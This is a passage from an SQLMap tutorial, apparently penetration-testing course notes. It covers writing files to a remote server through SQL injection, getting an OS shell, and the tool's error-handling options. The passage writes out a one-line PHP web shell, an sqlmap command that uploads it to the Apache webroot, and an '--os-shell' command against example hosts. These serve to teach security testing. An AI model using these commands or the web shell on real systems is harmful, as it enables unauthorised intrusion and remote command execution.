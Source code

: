 Still, many web applications require the ability for DBMSes to write data into files, so it is worth testing whether we can write files to the remote server. To do that with SQLMap, we can use the `--file-write` and `--file-dest` options. First, let's prepare a basic PHP web shell and write it into a `shell.php` file:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, let's attempt to write this file on the remote server, in the `/var/www/html/` directory, the default server webroot for Apache. If we didn't know the server webroot, we will see how SQLMap can automatically find it.

```bash
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

## **OS Command Execution**

Now that we confirmed that we could write a PHP shell to get command execution, we can test SQLMap's ability to give us an easy OS shell without manually writing a remote shell. SQLMap utilizes various techniques to get a remote shell through SQL injection vulnerabilities, like writing a remote shell, as we just did, writing SQL functions that execute commands and retrieve output or even using some SQL queries that directly execute OS command, like `xp_cmdshell` in Microsoft SQL Server. To get an OS shell with SQLMap, we can use the `--os-shell` option, as follows:

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

We see that SQLMap defaulted to `UNION` technique to get an OS shell, but eventually failed to give us any output `No output`. So, as we already know we have multiple types of SQL injection vulnerabilities, let's try to specify another technique that has a better chance of giving us direct output, like the `Error-based SQL Injection`, which we can specify with `--technique=E`

---

# Handling Errors

## **Display Errors**

The first step is usually to switch the `--parse-errors`, to parse the DBMS errors (if any) and displays them as part of the program run:

## Store Traffic

The `-t` option stores the whole traffic content to an output file:

```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

## **Verbose Output**
